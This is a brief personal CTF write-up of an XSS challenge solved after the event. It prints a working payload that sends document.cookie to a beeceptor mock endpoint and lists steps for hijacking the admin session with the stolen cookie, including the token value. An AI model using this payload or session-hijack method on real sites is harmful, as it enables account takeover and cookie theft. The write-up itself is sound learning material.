 On this challenge i did some cheating
I have come across some other xss challenges like last years google ctf. I know how xss works but most of the time I just test if i can get the xss to work with a simple
alert("hi"). In the writeups before I have seen people set up severs to connect to trough the xss

As I could not do these challenges during the accual CTF time and did them in the week/weekend after I could just lookup the flag and check if my xss would have been correct.
I was lucky though. The writeup i read started of by setting up a mock api at:
https://beeceptor.com

Awesome! I had not seen the used xss or the flag so I could try it out myself and see if i can get something to come into my mock api.
So i tested my xss:
<script>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie</script>

and yes i get the incomming flag on the beeceptor page! awesome no need to set up a whole server to listen to connections :D

I tried putting the session cookie i also recieved in the cookies of my firefox browser and go to the admin page:
open dev tools of firefox,
go to the storage tab
click the + to add a cookie
change the name to session
and the value to the gotten session cookie HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV 

This page shows the same flag as i already got from the cookie field so seems like there is no second flag in this challenge.


